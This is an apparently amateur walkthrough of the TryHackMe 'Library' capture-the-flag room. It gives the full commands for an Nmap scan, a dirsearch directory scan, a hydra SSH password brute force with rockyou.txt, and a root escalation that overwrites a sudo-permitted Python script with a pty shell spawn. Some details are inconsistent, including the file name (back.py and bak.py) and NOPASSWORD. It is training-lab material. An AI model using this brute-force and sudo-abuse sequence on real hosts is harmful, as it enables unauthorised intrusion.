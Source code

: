 # Report Library CTF
The machine can be found in TryHackme [Link]("https://tryhackme.com/r/room/bsidesgtlibrary")
## Scan
I have used Nmap to find the open ports and found the port 22(SSH) and 80 (http) open.
Once i found the http open port i have visited the link the IP Address it refered to & found a username saying `meliodas`.
## Search 
I have used Dirsearch to find the hidden directories and found the name `rockyou` in the `robots.txt` file which seems to be a clue to Brute Force. 
maybe the wordlist to be used can be `rockyou.txt`.
```bash
dirsearch -u targetIPaddress
```
## Crack !
I just assumed the username for SSH to be meliodas and started hydra over it.
```bash
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://ta.rg.et.Ip// | tee password.txt
```
The above command will bruteforce the username password and prints it to console and also the file.
## Into the SSH
I have logged into the ssh and i got access to the `meliodas` user and got the user flag.
### Inside the Meliodas
In the home directory i found 2 files `user.txt`-> user flag & `back.py` -> seems to be a backup code.
We need to have sudo privileges to directly execute the back.py.
`sudo -l` will return with the set of commands the user can execute using the sudo previlages.
Here in this case we have permission to execute `/usr/bin/python`,`/home/meliodas/back.py`
with sudo privileges this can be checked by,
```bash
sudo -l
```
The directories with `NOPASSWORD` mentioned can be accessible by meliodas hence running directly `bak.py` will not be accessed but can be executed using the following command
```bash
/usr/bin/python bak.py
```
will have result
now we can modify `bak.py` using echo to bringup the shell by,
```bash
echo 'import pty; pty.spawn("/bin/sh")' > bak.py
```
Now we can execute `bak.py` using the same command
```bash
sudo /usr/bin/python bak.py
```
And can get the root shell.

### Learning
Explore how to add the user to limit the user to execute the commands with sudo privileges.
#### Task
Add the `/usr/share/python` to your current user to execute python files with sudo privileges.

